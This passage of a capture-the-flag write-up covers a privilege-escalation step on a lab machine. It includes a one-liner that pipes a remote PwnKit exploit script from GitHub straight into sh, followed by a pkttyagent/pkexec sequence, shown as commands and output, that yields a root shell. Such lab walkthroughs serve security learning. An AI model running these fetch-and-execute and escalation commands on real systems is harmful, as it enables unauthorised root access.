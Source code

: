 I even tried to run the pkexec priv esc normally (https://github.com/ly4k/PwnKit) and it didnt work. 
```
webdeveloper@sky:~$ id
uid=1000(webdeveloper) gid=1000(webdeveloper) groups=1000(webdeveloper),24(cdrom),27(sudo),30(dip),46(plugdev)
webdeveloper@sky:~$ curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit -o PwnKit
^C
webdeveloper@sky:~$ sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
^C
```
Therefore, I set up two ssh sessions. In the first one, I checked to see what the PID was using ```echo $$```. 
```
webdeveloper@sky:~$ echo $$
1438
```
Then, in the second one i ran ```pkttyagent``` to authenticate the process that will be requesting pkexec.
```
webdeveloper@sky:~$ pkttyagent -p 1438
```
Finally, I ran ```pkexec``` with a bash shell. 
```
webdeveloper@sky:~$ pkexec /bin/bash
```
It requested authencation using the ```pkttyagent``` in the other session so I input the password for user ```webdeveloper```. 
```
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: webdeveloper
Password: 
```
And it dropped me into a root shell in the first session! 
```
webdeveloper@sky:~$ pkexec /bin/bash
root@sky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@sky:~# wc -c /root/root.txt
33 /root/root.txt
```
The second session also completed authentication. 
```
webdeveloper@sky:~$ pkttyagent -p 1438
==== AUTHENTICATING FOR org.freedesktop.policykit.exec ===
Authentication is needed to run `/bin/bash' as the super user
Authenticating as: webdeveloper
Password: 
==== AUTHENTICATION COMPLETE ===
```

Writeup done with the help of: ```https://wiki.thehacker.nz/docs/thm-writeups/road-medium/```. 